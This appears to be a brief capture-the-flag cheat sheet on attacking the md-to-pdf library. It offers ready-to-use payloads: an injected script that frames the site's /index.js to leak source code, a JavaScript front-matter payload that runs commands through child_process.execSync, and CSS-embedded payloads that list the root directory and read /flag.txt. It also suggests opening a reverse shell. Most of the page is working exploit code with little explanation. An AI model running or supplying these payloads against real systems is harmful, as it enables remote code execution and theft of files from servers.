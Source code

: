 # Md to Pdf injection

### Table of Contents

- [PDF injection](#pdf-injection)
- [Md-to-Pdf Vunlerability](#md-to-pdf-vulnerability)

## PDF injection

First, try [PDF injection](/web/pdf-injection.md) to see if the website is exploitable.

```js
<script>document.write('<iframe src="'+window.location.href+'/index.js" width=1000px height=1000px></iframe>')</script>
```

This script can provide /index.js, and let you watch the src code.

## Md-to-pdf Vulnerability

The library gray-matter (used by md-to-pdf to parse front matter) exposes a JS-engine by default, which essentially runs eval on the given Markdown.

exploit: 

```js
---js
((require("child_process")).execSync(""))
---RCE
```

You can open a reverse shell inside the execSync or readdir and file with : 

```js
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```

```js
---js
{
css: `body::before { content: "${require('fs').readFileSync('/flag.txt', 'utf-8')}"; display: block }`
}
---
```

### Documentation

- [Reverse shell tuto](https://www.youtube.com/watch?v=QVaf4DMYPFc)
- [Github Poc vuln](https://github.com/simonhaenisch/md-to-pdf/issues/99)

---

[**:arrow_right_hook: Back home**](/README.md)
